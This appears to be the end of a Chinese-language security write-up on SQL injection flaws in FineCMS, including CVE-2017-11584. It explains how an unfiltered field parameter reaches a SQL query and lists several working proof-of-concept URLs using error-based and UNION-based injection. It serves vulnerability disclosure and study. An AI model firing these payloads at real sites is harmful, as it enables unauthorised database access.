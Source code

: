 ## PoC ##

打开网站并获取cookie中的SYS_KEY.

payload:
```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=related%2
0catid=1%20tag=1,2%20num=1/**/PROCEDURE/**/analyse(extractvalue(rand(),con
cat(0x3a,version())),1)

http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=tags%2
0catid=1%20tag=1,2%20num=1/**/PROCEDURE/**/analyse(extractvalue(rand(),con
cat(0x3a,version())),1)
```

# Template.php field变量 SQL注入漏洞(CVE-2017-11584) #

## 漏洞分析: ##

前面洞触发方式相同，通过安全码，从data2函数进入list_tag函数，设置`action=related`、`action=form`、`action=member`、`action=module`

这4部分有一个通用的`$system['field']`，这部分其实稍微有点儿奇怪，没做任何过滤就被直接拼接进入了SQL语句。

![image.png-59kB][13]

## PoC ##

每一个action进入语句的条件都不一定，这里贴上4个payload

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=related%20module=news%20tag=1%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-40.6kB][14]

```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=form%20fo
rm=1%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-42.4kB][15]

```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=member%20
field=1%0aunion%0aselect%0auser()%23
```
![image.png-30.6kB][16]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bypfg8rxkludnscn6k7i06bx/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/p6rzdl3hn4qma2xfdnnjcvmf/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k3pahve44l13aaq0l3tv804k/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tdhgnnhca43s7luif2z0qt19/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cta71z8vhzrdv5h9xgvyjirl/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/oxxa39k1ctnodcfdibrzk8mb/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g6c9j510dmf41jqluwewf7lc/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9uh4ll2w53s9ftnhdfaf5jv4/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dwwtyb3okbfl0ohedg3q1z4h/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3pt5zq0ezl29las6zgjmh7r5/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g3fahvxj1u1628qhm6dwrelp/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n7dbtbupmw8ukwwenp4lipjj/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i8d3nn39drj9to4x24yzed3q/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g111thw2rkktq201cdcy0vgj/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/uayzgncag8bh36fg9d8ii3fq/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1k1qcb858g9jvsozo40sy35t/image.png
  [17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/yfo0vsmibo19y94ld7kf6t00/image.png
  [18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y5pf6ackfl3e6hgodigz9icb/image.png
  [19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dyjq3635yf7ascfdxqmklyql/image.png